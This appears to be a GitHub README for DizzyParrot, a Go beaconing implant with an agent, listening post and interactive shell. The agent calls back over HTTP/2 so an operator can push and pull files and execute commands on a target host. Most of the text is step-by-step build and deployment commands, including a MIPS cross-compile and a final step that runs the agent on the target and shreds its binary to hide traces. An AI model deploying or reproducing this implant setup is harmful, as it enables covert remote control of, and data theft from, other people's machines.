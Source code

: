 # DizzyParrot
A simple beaconing implant written in Go. DizzyParrot consist of an agent, listening post, and interactive shell. The agent communicates to the LP over HTTP/2 at a specified interval. An agent can be tasked using the interactive shell to pull and push files, and execute commands on the target host. 

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim
```

#### Install go
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```

#### Clone the repo using git and get go dependencies 
```
git clone https://github.com/af001/DizzyParrot.git

go get github.com/c-bata/go-prompt
go get github.com/common-nighthawk/go-figure
go get github.com/jedib0t/go-pretty/table
```

#### Build LP and shell
```
cd server; go build server.go
cd shell; go build shell.go
```

#### Build agent 
```
# Build for host Linux
go build -ldflags "-X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# Cross-compile mips
GOOS=linux GOARCH=mips go build -ldflags "-X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"
```

#### Start the LP
```
# Generate cert
cd server; mkdir certs
openssl req -newkey rsa:2048 -nodes -keyout certs/server.key -x509 -days 365 -out certs/server.crt

# Start the LP
./server -c config.yml
```
#### Start the shell
```
cd shell
./shell -c config.yml
```

#### Execute agent on target host
```
# Start agent
./client -c server.crt &

# To run in memory 
shred -fuz client server.crt
```
